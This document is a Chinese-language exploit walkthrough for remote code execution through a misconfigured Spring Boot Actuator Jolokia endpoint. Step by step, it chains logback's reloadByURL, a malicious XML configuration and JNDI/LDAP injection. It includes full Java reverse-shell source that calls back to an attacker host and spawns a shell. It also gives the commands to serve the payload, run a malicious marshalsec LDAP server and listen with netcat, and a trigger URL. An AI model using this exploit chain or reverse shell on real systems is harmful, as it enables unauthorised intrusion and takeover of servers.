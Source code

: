 Spring Boot Actuator jolokia 配置不当导致的rce漏洞
==================================================

一、漏洞简介
------------

### 利用条件：

-   目标网站存在 /jolokia 或 /actuator/jolokia 接口

-   目标使用了 jolokia-core 依赖（版本要求暂未知）并且环境中存在相关
    MBean

-   目标可以请求攻击者的 HTTP 服务器（请求可出外网）

-   ldap 注入可能会受目标 JDK 版本影响，jdk \< 6u201/7u191/8u182/11.0.1

二、漏洞影响
------------

三、复现过程
------------

### 漏洞原理

-   直接访问可触发漏洞的 URL，相当于通过 jolokia 调用
    ch.qos.logback.classic.jmx.JMXConfigurator 类的 reloadByURL 方法
-   目标机器请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容
-   目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
-   xml 文件中利用 logback 依赖的 insertFormJNDI 标签，设置了外部 JNDI
    服务器地址
-   目标机器请求恶意 JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞

### 漏洞复现

### 步骤一：查看已存在的 MBeans

访问 **/jolokia/list** 接口，查看是否存在
**ch.qos.logback.classic.jmx.JMXConfigurator** 和 **reloadByURL**
关键词。![111.png](./resource/SpringBootActuatorjolokia配置不当导致的rce漏洞/media/rId28.png)![222.png](./resource/SpringBootActuatorjolokia配置不当导致的rce漏洞/media/rId29.png)

### 步骤二：托管 xml 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP
服务端口（80、443）

    使用 python 快速开启 http server

    python2 -m SimpleHTTPServer 80
    python3 -m http.server 80

在根目录放置以 xml 结尾的 ian.xml 文件，内容如下：

    <configuration>
      <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/JNDIObject" as="appName" />
    </configuration>

### 步骤三：准备要执行的 Java 代码

使用兼容低版本 jdk 的方式编译：

    javac -source 1.5 -target 1.5 JNDIObject.java

然后将生成的 **JNDIObject.class** 文件拷贝到刚刚用py开启的网站根目录。

    JNDIObject.java //请自行修改代码中反弹shell的ip和端口
    /**
     *  javac -source 1.5 -target 1.5 JNDIObject.java
     *
     *  Build By LandGrey
     * */

    import java.io.File;
    import java.io.InputStream;
    import java.io.OutputStream;
    import java.net.Socket;

    public class JNDIObject {
        static {
            try{
                String ip = "your-vps-ip";
                String port = "443";
                String py_path = null;
                String[] cmd;
                if (!System.getProperty("os.name").toLowerCase().contains("windows")) {
                    String[] py_envs = new String[]{"/bin/python", "/bin/python3", "/usr/bin/python", "/usr/bin/python3", "/usr/local/bin/python", "/usr/local/bin/python3"};
                    for(int i = 0; i < py_envs.length; ++i) {
                        String py = py_envs[i];
                        if ((new File(py)).exists()) {
                            py_path = py;
                            break;
                        }
                    }
                    if (py_path != null) {
                        if ((new File("/bin/bash")).exists()) {
                            cmd = new String[]{py_path, "-c", "import pty;pty.spawn(\"/bin/bash\")"};
                        } else {
                            cmd = new String[]{py_path, "-c", "import pty;pty.spawn(\"/bin/sh\")"};
                        }
                    } else {
                        if ((new File("/bin/bash")).exists()) {
                            cmd = new String[]{"/bin/bash"};
                        } else {
                            cmd = new String[]{"/bin/sh"};
                        }
                    }
                } else {
                    cmd = new String[]{"cmd.exe"};
                }
                Process p = (new ProcessBuilder(cmd)).redirectErrorStream(true).start();
                Socket s = new Socket(ip, Integer.parseInt(port));
                InputStream pi = p.getInputStream();
                InputStream pe = p.getErrorStream();
                InputStream si = s.getInputStream();
                OutputStream po = p.getOutputStream();
                OutputStream so = s.getOutputStream();
                while(!s.isClosed()) {
                    while(pi.available() > 0) {
                        so.write(pi.read());
                    }
                    while(pe.available() > 0) {
                        so.write(pe.read());
                    }
                    while(si.available() > 0) {
                        po.write(si.read());
                    }
                    so.flush();
                    po.flush();
                    Thread.sleep(50L);
                    try {
                        p.exitValue();
                        break;
                    } catch (Exception e) {
                    }
                }
                p.destroy();
                s.close();
            }catch (Throwable e){
                e.printStackTrace();
            }
        }
    }

![444.png](./resource/SpringBootActuatorjolokia配置不当导致的rce漏洞/media/rId32.png)

### 步骤四：架设恶意 ldap 服务

下载 **marshalsec** ，使用下面命令架设对应的 **ldap** 服务：

    https://github.com/ianxtianxt/marshalsec

***ps:我这里发的是源码，需要用mvn编译marshalsec***

    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389

### 步骤五：监听反弹 shell 的端口

    nc -lvvp 你上一步代码里设置的端口

### 步骤六：从外部 URL 地址加载日志配置文件

    如果目标成功请求了ian.xml 并且 marshalsec 也接收到了目标请求，但是目标没有请求 JNDIObject.class，大概率是因为目标环境的 jdk 版本太高，导致 JNDI 利用失败。

替换实际的 your-vps-ip 地址访问 URL 触发漏洞：

    https://www.0-sec.org/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/your-vps-ip!/ian.xml

**服务器请求日志**![请求1.png](./resource/SpringBootActuatorjolokia配置不当导致的rce漏洞/media/rId36.png)![请求2.png](./resource/SpringBootActuatorjolokia配置不当导致的rce漏洞/media/rId37.png)
